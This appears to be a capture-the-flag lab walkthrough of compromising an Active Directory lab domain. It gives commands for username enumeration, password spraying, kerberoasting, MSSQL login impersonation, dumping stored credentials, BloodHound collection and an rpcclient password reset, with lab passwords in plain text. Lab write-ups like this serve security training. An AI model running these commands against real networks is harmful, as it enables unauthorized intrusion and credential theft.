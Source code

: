 
# Kerbrute

Using kerbrute for bruteforcing usernames:
```bash
kerbrute userenum --dc 192.168.212.40 -d hokkaido-aerospace.com /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --downgrade
```

We get usernames:![](attachment/5f70acd0ec3e0f5ea47e94be623718a2.png)
Now bruteforcing passwords with the usernames:
![](attachment/892d14bebe8df28e5bb157e7d442070c.png)\

Now we can try kerberoasting with this account:
```bash
GetUserSPNs.py hokkaido-aerospace.com/info:info -request
```
![](attachment/c6b6f7d617322665a13df8e46da11fd2.png)
We get two hashes but they are uncrackable:![](attachment/ba75fa0c62cda02890227e8ecf6f9e64.png)

Now checking SYSVOL share for scripts:
![](attachment/2ae5d9b5494df825d90b29b3a54eb003.png)
![](attachment/69014b0a052e318f497397e0867c1c21.png)
Now we get a password so spraying it:
![](attachment/848e04d85b33bb9b34ab2917fd15d1af.png)
Now using discovery user we can login to Mssql:
```bash
mssqlclient.py -windows-auth -dc-ip 192.168.212.40 hokkaido-aerospace.com/discovery:'Start123!'@192.168.212.40
```
Now checking for impersonation:
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
![](attachment/244d7632d9f665459f905bdba65f705d.png)

Now to impersonate:
```
EXECUTE AS LOGIN = 'hrappdb-reader' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
```
Now checking:
```
SELECT SYSTEM_USER
```
![](attachment/665f7d64150e1c79672f50646d82414e.png)
Now checking databases:
```
SELECT name FROM master.dbo.sysdatabases
```
![](attachment/f17153e53b0832857d718d981b897895.png)
Checking all tables:
```
SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;
```
![](attachment/c1c0f18677ff89cdd6765abc75db208a.png)

```
select * from sysauth;
```

![](attachment/f0fbf2c986e1b7b81d0e09c0c317caf3.png)

Now with the creds we can run bloodhound:
```
nxc ldap 192.168.212.40 -u hrapp-service -p 'Untimed$Runny' --bloodhound --collection All -ns 192.168.212.40
```
![](attachment/e3a1b6f73fdbb9a5e8816038f6a9c8d0.png)
Checking outbound transitive object control we have generic write over hazel.
Doing a targeted kerberoast:
```
targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny'
```
![](attachment/bd16e3763c8d2fddfa32c5379974e530.png)
Only hazel's hash gets cracked.
![](attachment/20a92c73113e174b45f4b6b162c83d10.png)

We belong to Tier2-Admins and we have GenericWrite access over Administrators:
![](attachment/ca47130d083b1010f9b37833b4089355.png)
But doesn't work for some reason

```
rpcclient //192.168.94.135 -U hokkaido-aerospace.com/hazel.green%haze1988c
```
```
rpcclient $> setuserinfo2 MOLLY.SMITH 23 'Start123!'
```

